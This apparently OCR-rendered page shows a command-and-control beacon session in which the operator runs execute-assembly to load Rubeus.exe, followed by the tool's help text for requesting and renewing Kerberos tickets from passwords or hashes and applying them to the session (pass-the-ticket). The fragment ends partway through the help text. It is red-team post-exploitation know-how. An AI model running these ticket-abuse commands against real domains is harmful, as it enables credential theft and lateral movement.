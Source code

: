 ```powershell
Scanner module is complete
```
execute-assembly /usr/share/poshc2/resources/modules/Rubeus.exe
```powershell
[10/06 15:08:08] beacon> execute-assembly /usr/share/poshc2/resources/modules/Rubeus.exe
[10/06 15:08:23] [*] Tasked beacon to run .NET program: Rubeus.exe
[10/06 15:08:23] [+] host called home, sent: 319531 bytes
[10/06 15:08:25] [+] received output:


   ______        _                      

  (_____ \      | |                     

   _____) )_   _| |__  _____ _   _  ___ 

  |  __  /| | | |  _ \| ___ | | | |/___)

  | |  \ \| |_| | |_) ) ____| |_| |___ |

  |_|   |_|____/|____/|_____)____/(___/



  v1.5.0 





 Ticket requests and renewals:



    Retrieve a TGT based on a user password/hash, optionally saving to a file or applying to the current logon session or a specific LUID:

        Rubeus.exe asktgt /user:USER </password:PASSWORD [/enctype:DES|RC4|AES128|AES256] | /des:HASH | /rc4:HASH | /aes128:HASH | /aes256:HASH> [/domain:DOMAIN] [/dc:DOMAIN_CONTROLLER] [/outfile:FILENAME] [/ptt] [/luid] [/nowrap]



    Retrieve a TGT based on a user password/hash, start a /netonly process, and to apply the ticket to the new process/logon session:

        Rubeus.exe asktgt /user:USER </password:PASSWORD [/enctype:DES|RC4|AES128|AES256] | /des:HASH | /rc4:HASH | /aes128:HASH | /aes256:HASH> /createnetonly:C:\Windows\System32\cmd.exe [/show] [/domain:DOMAIN] [/dc:DOMAIN_CONTROLLER] [/nowrap]



    Retrieve a service ticket for one or more SPNs, optionally saving or applying the ticket:

        Rubeus.exe asktgs </ticket:BASE64 | /ticket:FILE.KIRBI> </service:SPN1,SPN2,...> [/enctype:DES|RC4|AES128|AES256] [/dc:DOMAIN_CONTROLLER] [/outfile:FILENAME] [/ptt] [/nowrap]



    Renew a TGT, optionally applying the ticket, saving it, or auto-renewing the ticket up to its renew-till limit:

```